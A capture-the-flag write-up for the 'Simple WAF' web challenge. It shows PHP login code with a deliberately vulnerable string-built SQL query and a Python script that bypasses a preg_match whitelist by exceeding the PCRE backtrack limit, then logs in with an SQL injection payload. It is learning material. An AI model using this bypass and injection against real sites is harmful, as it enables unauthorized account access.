 # Simple WAF
[Medium]

i whitelisted input values so, i think iam safe : P

Author : abdoghazy

http://20.115.83.90:1339/

---

Solved late...forgot to add a dash (`-`) in the last :(

Solution:

The source code was given to us.

```php
<?php

require_once("db.php");

function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}


if(isset($_POST['login-submit']))
{
	if(!empty($_POST['username'])&&!empty($_POST['password']))
	{
        $username=$_POST['username'];
		$password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

	}
	else
	{
		echo "<script>alert('Please Fill All Fields')</script>";
	}
}

?>
```

The query is vulnerable to SQL injection. However...
1. We can't attack the `password` since it's being hashed using md5
2. A regex match is done to the `username` so only lowercase alphabet letters are allowed

I came across this writeup while looking for how to bypass `preg_match`
https://simones-organization-4.gitbook.io/hackbook-of-a-hacker/ctf-writeups/intigriti-challenges/1223#id-2.1-checks-bypass-with-redos-that-causes-sigsegv-in-pcre

So we can do a `ReDoS` (Regular Expression Denial of Service) by exceeding `pcre.backtrack_limit`

Let's make use of Python...

```python
import requests

URL = "http://20.115.83.90:1339/"

data = {
    "username": f"admin' /*{'A'*100000}*/ -- -",
    "password": "admin",
    "login-submit": ""
}
data = requests.post(URL, data=data)

print(data.text)
```

![image](result.png)

Flag: `0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}`

Just realized I forgot to add the last dash too late :(
Was using `"username": f"admin' /*{'A'*100000}*/ --",`


